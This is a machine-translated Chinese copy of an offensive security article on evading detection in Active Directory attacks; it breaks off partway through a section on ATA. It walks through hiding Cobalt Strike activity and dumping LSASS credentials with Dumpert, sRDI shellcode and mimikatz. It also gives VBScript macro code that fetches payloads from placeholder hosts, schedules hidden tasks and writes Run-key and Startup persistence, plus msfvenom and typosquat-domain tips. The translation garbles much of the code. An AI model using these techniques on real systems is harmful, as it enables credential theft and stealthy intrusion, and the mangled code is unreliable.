







# 活动目录中的反检测保护。

> 原文：<https://infosecwriteups.com/anti-detection-protection-in-active-directory-83e8eae158ec?source=collection_archive---------3----------------------->

## 攻击域名时躲避检测

unsplash.com

如你所知，任何攻击都是分几个阶段进行的。我们成功地进行了侦察，增加了我们自己的特权，想去哪里就去哪里，最后成功地接管了整个网络。但问题来了:我们被发现了，断网了，被抓了。为了避免事件的这种发展，是时候考虑防止被发现的方法了。

警告
所有信息仅供参考。编辑委员会和作者都不对本文材料可能造成的任何伤害负责。

躲避记忆扫描仪
系统中的任何行为都会以这样或那样的方式被记录下来，对于有经验的观察者来说，完全隐藏是不可能的。但是你可以尽量伪装自己。大多数红队或 Pentesters 使用 PowerShell 攻击一个域。此外，它变得如此受欢迎，以至于出现了整个框架，例如，Empire 和 PowerSploit。此外，PowerShell 脚本可以使用相同的调用模糊处理进行模糊处理。为了应对所有这些工具，防御方开发了检测它们的方法，例如检测奇怪的父子关系、可疑的命令行参数，甚至各种方法来消除 PowerShell。

隐藏 Windows 域的最先进的工具之一是 Cobalt Strike，特别是使用执行汇编模块。可以运行类似于用 C #编写的 PowerShell 脚本的程序。比如用 C #编译的 get-users，它复制了 PowerView 包中 Get-NetUser 模块的功能。此示例在域控制器中查询每个帐户的 SAMAccountName、UserGivenName 和 UserSurname 属性。

使用执行装配模块
运行 get-users，让我们看看此时在目标机器上会发生什么。这可以使用 ProcMon 来完成。

ProcMon 构建的进程树
powershell.exe 进程包含 Cobalt Strike 负载，rundll32.exe 进程用于下载和执行 get-users。值得一提的是，powershell.exe 是 rundll32.exe 的母公司，只是因为钴打击载荷是从 PowerShell 下推出的。

但是 Cobalt Strike 负载可以在任何进程下启动，同时也可以迁移到不同的进程。此外，Cobalt Strike 的一些功能被卸载到新的进程中，以确保该软件的稳定运行。加载到 rundll32 进程中的 dll 包括 get 用户所需的 dll，比如 LDAP 库和 Kerberos 身份验证。

rundll32 中加载的 DLLs】这个模块的主要优点是文件从不写到磁盘，也就是说，汇编严格在内存中执行。同时，在内存分析过程中，对 CreateRemoteThread 函数给予了很多关注，由于这个函数，恶意软件迁移到其他进程并加载映像。execute-assembly 模块使用内置的 LoadImage 函数加载自定义程序集，由于该函数主要由合法进程用来加载 dll，因此很难检测到正在加载程序集。

需要补充的是，PowerShell 并不是唯一一个被防御方严密监控的合法进程。其他常见的计划和服务(如 WMIC 或 schtasks / at)也受到严格审查。而且这些工具的功能可以在定制中重现。NET 程序集。这意味着有可能使用相同的执行装配模块隐藏使用它们。

躲避 EDR
端点检测和响应(EDR)是一种端点威胁检测和响应技术。EDR 不断监测和分析可疑活动，并对此采取适当行动。由于大多数组织关注网络安全，他们忽略了终端设备上的活动。作为 SOC 的主要信息来源之一，EDR 通过配置各种策略来帮助缩小这一差距，包括应用启动控制、宏和脚本控制、内存活动分析等。

文章中描述的所有方法可能会与避免 EDR 的主题重叠，但正是在这一部分，我想考虑关键软件(如 mimikatz)的隐藏操作和初始负载的交付。

隐藏 mimikatz
的工作作为一个规则，几乎所有的 EDRs 都检测到任何渗透测试器、reducer 或入侵者攻击 Windows 系统的主要工具之一的使用——mimikatz。因此，在与严肃的组织打交道时，以最纯粹的形式使用这个工具没有任何意义。

或者，您可以转储 LSASS 进程，mimikatz 使用该进程来获取重要数据。但是使用 ProcDump EDR 也会检测到由于拦截通信良好的 API 调用。因此，如果您将 LSASS 进程从相应的 API 中分离出来，那么它可以被无提示地转储。这正是 Dumpert 工具的工作原理。使用直接系统调用和 API 断开连接，这个工具允许您绕过防病毒工具和 EDR，对 LSASS 进程进行缩短的转储。

使用 Dumpert
转储 LSASS，在指定转储文件后，现在可以使用 mimikatz 从转储中提取信息。

> mimikatz # securlsa::minidump[转储路径]
> mimikatz # securlsa::logon passwords

这种方法可以在转储过程中防止 EDR 检测，但它会通过将程序文件保存到磁盘来留下可见的痕迹。如前所述，代码注入有助于避免写入磁盘。但是普通的 DLL 注入也会被 EDR 检测到，所以 sRDI 技术和[相关的工具](https://github.com/monoxgas/sRDI)被开发来实现它。工具本身附有对其用途和工作原理的详细描述。

有一个专门针对注射的 [Dumpert](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL) 的 DLL 版本。为了转换它，我们将使用 sRDI 包中的 **ConvertToShellcode.py** 脚本。

> python 3 converttoshellcode . py Outflank-Dumpert.dll

可以使用**s inject**Cobalt Strike 模块注入生成的外壳，指定流程的 PID。

Shinject 钴击模块

但专门针对 Cobalt Strike，它自己版本的 [Dumpert](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-Aggressor) 是用自己的 Agressor 脚本语言开发的。

钴罢工的 Dumpert

因此，通过组合几种方法，我们可以实现从 LSASS 窃取凭证的隐藏工作。

避免 office 文档宏中的父子规则
在 ART 攻击中，传递引导加载程序或有效负载的最流行方式是 Office 文档中的宏。同时，宏中的漏洞利用思想保持不变，只是它们的解释变得更加复杂，也就是说，添加了混淆以绕过 EDR。

Office 宏是用 VBScript 编写的，VBScript 支持很多有用的功能，可以提供对系统的完全访问。因此，Emotet 使用序列 WinWord → cmd → PowerShell，APT28 组使用调用 certutil 的宏来解码负载。

无论你如何混淆宏，上面的例子都会被 EDR 使用父子进程模式检测到，因为 cmd、PowerShell 或 certutil 会从 WinWord 进程调用，也就是说，它们会是它的子进程。

但是有几种方法可以避免这种 EDR 模式。

# 1.避免直接分析后代

为了防止新进程从 WinWord 降级，您可以使用 WMI 来启动它们。新流程将成为 wmiprvse.exe 的子流程。这可以使用下面的代码来完成。

> set obj = GetObject(" new:c 08 AFD 90-f2a 1–11 D1–8455–00 a0c 91 f 3880 ")
> obj。document . APPLICATION . shell execute " APPLICATION "，Null，" FOLDER "，Null，0

您还可以直接在 WinWord 进程中下载和执行代码。为此，使用了 XMLDOM。

> Set xml = CreateObject ("Microsoft。XML DOM ")
> XML . async = False
> Set xsl = XML
> xsl . load(" http://IP/payload . xsl ")
> XML . transform node xsl

# 2.由于计划任务而闪避

可以使用 VBScript 创建计划任务。新流程将在 svchost.exe 启动。这也很方便，因为我们可以安排在几天或几周内执行。这可以使用下面的代码来完成，指定所需的日期。

> set service = CreateObject(" Schedule。
> )【服务】呼叫服务。连接
> Dim td: Set td = service。NewTask (0)
> td。registration info . Author = " Microsoft Corporation "
> TD . settings . startwhenavailable = True
> TD . settings . hidden = False
> Dim triggers:Set triggers = TD . triggers
> Dim trigger:Set trigger = triggers。create(1)
> Dim start time:ts = DateAdd(" s "，30，Now)
> start time = Year(ts)&"-"&Right(Month(ts)，2) & "-" & Right (Day (ts)，2)&【T】&Right(Hour(ts)，2)&":&Right(Minute(ts)，2)&":&Right(Second(ts)，2StartBoundary = startTime
> 触发器。ID = " time triggerid "
> Dim Action:Set Action = TD。Actions.Create (0)
> 动作。PATH = " PATH/FOR/APPLICATION "
> 呼叫服务。GetFolder ("\ ")。RegisterTaskDefinition(" update task "，td，6，，，3)

唯一需要说明的是**时间表的使用。服务**对象可以给出正在加载的**taskschd.dll**的 WinWord。

# 3.使用注册表

使用下面的 VBScript 代码，您可以使用注册表。

> set wsh shell = CreateObject(" WScript。shell ")
> wshshell . regwrite " HKCU \软件\微软\ Windows \ current version \ Run \ key "，" value "，" REG_SZ "

同样，您可以存储数据，在工作负载之间传输数据，并直接从宏中修改数据。

# 4.创建文件

尽管如此，不写入磁盘，攻击者的能力是非常有限的。您可以将必要的数据写入磁盘上的特定路径，如下所示。

> Path = CreateObject ("WScript。壳”)。SpecialFolders ("Startup")
> 设置 objFSO = CreateObject ("Scripting。FileSystemObject")
> 设置 objFile = objFSO。CreateTextFile(路径& "\ SCRIPT.bat "，True)
> objFile。写" notepad . exe "&vbCrLf
> objFile。关闭

一旦磁盘被写入，那么您需要尽可能地屏蔽这个操作。您可以通过使用特殊的文件路径来使分析变得复杂，因为 WinWord 进程写入临时 tmp 文件并没有什么不正常的。例如，您可以沿着以下路径之一进行录制:

> c:\ Users \<user>\ AppData \ Local \ Microsoft \ Windows \ inet cache \ Content。word \ ~ WRF { AE 7 bbf 2 f-B65D-4bf 4–9 fad-a 779 AEC 41 a 02 }。tmp
> C: \ Users \ <用户>\ AppData \ Local \ Temp \ CVR 497 f . tmp
> C:\ Users \<用户>\ AppData \ Local \ Microsoft \ Windows \ Caches \ { afbf 9 f1 a-8ee 8–4c 77-AF34-C 647 e 37 ca 0d 9 } . 1 . verx 00000000000016 . db</user>

但是您可以更进一步，更改 Office 模板:

> c:\ Users \<user>\ AppData \ Roaming \ Microsoft \ Templates \ normal . dotm</user>

# 5.加载数据

VBScript 可用于通过网络加载各种数据。但是，如果您使用 XMLHTTP 库或 URLDownloadToFIleA API 函数，WinWord 进程将启动一个网络连接(显然不是到 Microsoft 站点)，该网络连接将标记有 SOC 的 EDR。这可以通过使用 Internet Explorer COM 来避免。

> set ie = CreateObject(" internet explorer。
> )【应用】ie。导航"[https://pastebin.com/raw/payload](https://pastebin.com/raw/payload)"
> State = 0
> 直到 State = 4
> DoEvents
> State = ie . ready State
> Loop
> Dim payload:payload = ie。Document.Body.innerHTML

使用这种方法将导致从**svchost.exe**进程调用浏览器来加载数据。

# 6.嵌入宏中

也可以将负载或文件插入到宏本身甚至文档中，以便不通过网络下载。同一个 Metasploit 框架能够创建带有内置负载的宏。

> MSF venom-p generic/custom PAYLOADFILE = payload _ file-a x64-platform windows-f VBA-exe

但问题在于，新进程将从 WinWord 进程下启动。这很容易解决，但是如何解决——我们已经在上面讨论过了。

值得注意的是，这些技术单独使用相当适用，但如果将这些方法(或其中的一些)一起使用，被检测到的机会会更少。

在攻击过程中隐藏可以欺骗软件产品，但欺骗一个人要困难得多。因此，在任何攻击过程中，你都应该思考你的行动。这里有一些显而易见的提示。

流程渗透很常见，但是值得考虑嵌入哪些流程。毕竟，用户可以关闭一些不必要的进程，所以选择那些将提供更长有效负载生命周期的进程是值得的。这很可能会让人怀疑记事本(notepad.exe 进程)正在访问远程服务器或联机。因此，有经验的攻击者更有可能渗透更新服务或浏览器，其目的解释了与网络合作的需要。

我们已经讨论过使用 PowerShell——有时它是破坏性的。所以，任何一个操作者都应该非常了解他所使用的工具，因为你甚至无法猜测一些流行框架的加载或命令使用的是 PowerShell(比如 Cobalt Strike 中的 wmi 或 psexec_psh)。

另一个预防措施是使用类似的域名，如 github.com 和 githab.com。这样的域名不会引起怀疑，不像奇怪的字符集(也有类似这样的:kaWEFwkfbw.com)。这种方法既用于发送网络钓鱼电子邮件，也用于组织与命令和控制服务器的通信。

保持被劫持主机之间通信的最佳方式是使用合法的服务和程序。通过受损网络中使用的 RDP 或 RAdmin 来执行此操作要安全得多。为了收集额外的信息，您可以获取桌面的屏幕截图，以及使用安装在主机上的麦克风和摄像头(尽管这种类型的侦察需要大量的时间和精力)。

在任何情况下都不应该使用流行框架的公共模块(例如，MSF 的 local_admin_search_enum)，它们会被各种保护工具检测到。

切勿在捕获的主机上禁用防病毒、ATP 和 EDR。由于这些系统中的大多数会生成断电警报，这将是一个节点或整个网络异常的明显信号。

而且，如前所述，您需要收集和积累所有凭证，甚至是没有密码的用户名、来自文档、存储和邮箱的密码，并使用它们之间的相互关系。

躲避数据检测
高级威胁分析(ATA)是一个局域网平台，有助于保护组织免受多种现代目标计算机攻击和内部威胁。ATA 使用自己的网络分析引擎来收集和验证跨多种身份验证、授权和信息收集协议(Kerberos、DNS、RPC、NTLM 等)的流量。

ATA 通过从域控制器到 ATA 网关的端口镜像或直接向域控制器部署轻量级 ATA 网关等机制来收集这些信息